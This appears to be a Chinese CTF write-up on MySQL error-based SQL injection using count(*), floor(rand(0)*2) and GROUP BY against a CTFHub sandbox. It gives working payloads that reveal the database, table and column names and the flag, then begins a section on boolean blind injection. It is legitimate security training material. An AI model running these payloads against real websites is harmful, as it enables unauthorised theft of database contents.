 因为这里的x就是name的数量，只有一个count(*)都为1了。
·综合使用产生报错

```
select count(*),floor(rand(0)*2) x from cze group by x;
```

根据前面的函数，这句话是统计后面的floor(raand(0)*2) from cze产生的随机数种类并计算数量，0110,结果是两个，但是最后却报错。

实战注入
1.判断是否存在报错注入

```
http://challenge-a8c4fcd7a6890e16.sandbox.ctfhub.com:10800/?id=1 union select count(*),floor(rand(0)*2) x from information_schema.schemata group by x
```

2.很明显存在报错注入，爆库

```
1 union select count(*),concat(floor(rand(0)*2),database()) x from information_schema.schemata group by x
```

3.得到库名为sqli，爆表

```
1 union select count(*),concat(floor(rand(0)*2),(select concat(table_name) from information_schema.tables where table_schema='sqli' limit 0,1)) x from information_schema.schemata group by x
```

得到第一个表:news,继续爆第二个表

```
1 union select count(*),concat(floor(rand(0)*2),(select concat(table_name) from information_schema.tables where table_schema='sqli' limit 1,1)) x from information_schema.schemata group by x
```

4.得到第二个表名为flag的表，爆字段名

```
http://challenge-a8c4fcd7a6890e16.sandbox.ctfhub.com:10800/?id=1 union select count(*),concat(floor(rand(0)*2),(select concat(column_name) from information_schema.columns where table_schema='sqli' and table_name='flag' limit 0,1)) x from information_schema.schemata group by x
```

5.得到字段名为flag，爆字段内容

```
http://challenge-a8c4fcd7a6890e16.sandbox.ctfhub.com:10800/?id=1 union select count(*),concat(floor(rand(0)*2),0x3a,(select concat(flag) from sqli.flag limit 0,1)) x from information_schema.schemata group by x
```

**盲注**

盲注其实是SQL注入的一种，之所以成为盲注是因为他不会根据你SQL注入的攻击语句返回你想要知道的错误信息。

*布尔盲注*

布尔盲注只会回显True和False两种情况。
`length()` 返回字符串的长度
`substr()` 截取字符串
`ascii()` 返回字符串的ASCII码
